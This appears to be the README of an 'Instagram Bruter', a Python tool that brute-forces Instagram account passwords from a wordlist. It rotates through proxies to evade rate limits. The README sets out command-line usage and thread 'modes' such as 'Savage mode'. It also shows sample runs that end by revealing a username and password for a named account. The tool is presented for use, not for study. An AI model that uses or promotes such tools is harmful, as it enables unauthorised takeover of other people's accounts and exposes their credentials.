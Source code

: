 # Instagram Bruter

Re-engineered to work **without** TOR<br>
__Usage:__ `python instagram.py <username> <wordlist> -m <mode>`

### Requirements
- Python *v3.x* **|** *v3.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Help
```
C:\Users\Username\Instagram>python instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes; 0: 8bots, 1: 4bots, 2: 2bots, 3: 1bot
```

### Bots(Threads)
- 1 bot: 16 passwords at a time
- 2 bots: 32 passwords at a time
- 4 bots: 64 passwords at a time
- 8 bots: 128 passwords at a time

### Modes
- 0: 8 bots
- 1: 4 bots
- 2: 2 bots
- 3: 1 bot

### Chill mode
This mode uses only 1 bot, or 16 passwords at a time.
```
C:\Users\Username\Instagram>python instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1
This mode uses 2 bots, or 32 passwords at a time.
```
C:\Users\Username\Instagram>python instagram.py Sami09.1 pass.lst -m 2
```

### Moderate mode 2
This mode uses 4 bots, or 64 passwords at a time.
```
C:\Users\Username\Instagram>python instagram.py Sami09.1 pass.lst -m 1
```

### Savage mode
This mode uses 8 bots, or 128 passwords at a time.<br>
Only use this mode when you have to, proxies are limited so save some **p**__****__ for the rest of us
```
C:\Users\Username\Instagram>python instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run
```
[-] Proxy-IP: 125.25.80.39[Thailand]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 31
[-] Attempts: 15
[-] Proxies: 334
[-] Bots: 2
```

### Stop
```
[-] Proxy-IP: 37.145.33.107[Poland]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 97
[-] Proxies: 4
[-] Bots: 2

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
